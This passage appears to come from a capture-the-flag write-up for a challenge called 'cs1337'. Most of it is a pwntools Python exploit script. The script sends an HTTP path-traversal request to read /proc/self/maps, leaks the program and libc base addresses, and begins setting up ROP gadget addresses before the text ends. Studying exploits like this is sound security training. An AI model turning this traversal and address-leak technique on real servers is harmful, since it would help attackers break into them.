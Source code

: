 So we can take advantage of the second one to leak the address ( by reading /proc/self/maps ) and use the first one to ROP.

```python
#!/usr/bin/env python
from pwn import *
from time import sleep
import requests

context.binary = e = ELF("./cs1337_patched")
libc = e.libc
gs = """
brva 0x212D
"""

def start():
    global HOST, PORT
    if args.LOCAL:
        p = e.process()
        HOST = 'localhost'
        PORT = 1338

    elif args.REMOTE:  # python x.py REMOTE <host> <port>
        host_port = sys.argv[1:]
        p = remote(host_port[0], int(host_port[1]))
        HOST = host_port[0]
        PORT = host_port[1]
    return p

p = start()

sleep(1)

if args.GDB:
    gdb.attach(p, gdbscript=gs)
    pause()

io = remote(HOST, PORT)
io.send(f"""GET /../../../../../../../../../../../../../../../../proc/self/maps HTTP/1.1
Content-Length: 0\r
Cookie: id=pwn\r
Connection: keep-alive\r
\r\n""".encode())

io.recvuntil((b'HTTP/1.1 200 OK\n'
              b'Content-Type: text/plain\n'
              b'\n'))

e.address = int(io.recv(12).decode(), 16)

while True:
    _ = io.recvline()
    if b'libc.so.6' in _:
        break

libc.address = int(_[:12].decode(), 16)

log.info(hex(e.address))
log.info(hex(libc.address))

io.close()

RDI_RET = libc.address+0x000000000002a3e5
RSI_RET = libc.address+0x000000000002be51
```